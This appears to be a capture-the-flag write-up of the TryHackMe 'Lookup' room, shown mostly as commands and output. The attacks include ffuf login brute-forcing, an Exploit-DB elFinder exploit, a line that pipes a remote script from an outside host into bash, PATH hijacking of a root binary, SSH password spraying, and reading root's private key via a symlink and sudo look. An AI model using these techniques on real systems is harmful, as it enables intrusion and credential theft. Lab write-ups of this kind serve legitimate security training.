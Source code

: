 ```yaml
---
title: Lookup
description: 'Using FFUF to brute force a user name and password and abusing a binary to read files as root'
pubDate: 2024-12-16
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1732205261742'
---
```


```bash
ffuf -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=admin&password=FUZZ' -w /usr/share/wordlists/rockyou.txt -fs 62
...[snip]...
password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 26ms]
```

```bash
ffuf -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=FUZZ&password=password123' -w /usr/share/wordlists/rockyou.txt -fs 74
...[snip]...
jose                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 28ms]
```

https://www.exploit-db.com/exploits/46481

```bash
python2 elfinder.py http://files.lookup.thm/elFinder/
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

User on the box and in `credentials.txt`: `think : nopassword`

curl http://10.8.28.13:8000/moo.sh | bash


## USER

Looking at the source code of the `pwm` binary we see that it tries to get the username from the `id` command, but it doesn't use an absolute path.
We can abuse this by creating our own `id` command and echoing whatever we want:

```bash
echo 'uid=1000(think) gid=1000(think) groups=1000(think)' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
cd /tmp
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
...[snip]...
```

This looks like a list of passwords possibly for the `think` user.
Lets save them to our machine (`passwords.txt`) and try them on the `think` user.

```bash
netexec ssh lookup.thm -u think -p passwords.txt
SSH         10.10.213.121   22     lookup.thm       [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.213.121   22     lookup.thm       [-] think:jose1006
SSH         10.10.213.121   22     lookup.thm       [-] think:jose1004
...[snip]...
SSH         10.10.213.121   22     lookup.thm       [+] think:josemario.AKA(think)  Linux - Shell access!
```

A valid SSH password for `think` is `josemario.AKA(think)`, lets log in:

```bash
ssh think@lookup.thm # <-- josemario.AKA(think)
```

## ROOT

Since the `pwm` binary gets execute with root permissions we can abuse it again.
But instead of reading the `.passwords` file in the `think` users home directory we create a symlink to the `id_rsa` file of root:

```bash
mv .passwords .passwords_bak
think@lookup:~$ ln -s /root/.ssh/id_rsa .passwords
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...[snip]...
```

Now we can login as root with this key file:

```bash
ssh -i root_id_rsa root@lookup.thm
```

### Alternative way

Checking the sudo permissions we find this we can execute `look` as root:

```bash
sudo -l
[sudo] password for think:
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

Looking this up on GTFOBins (https://gtfobins.github.io/gtfobins/look/#sudo) we find a way to read files as root, lets read the `id_rsa` file:

```bash
sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...[snip]...
```
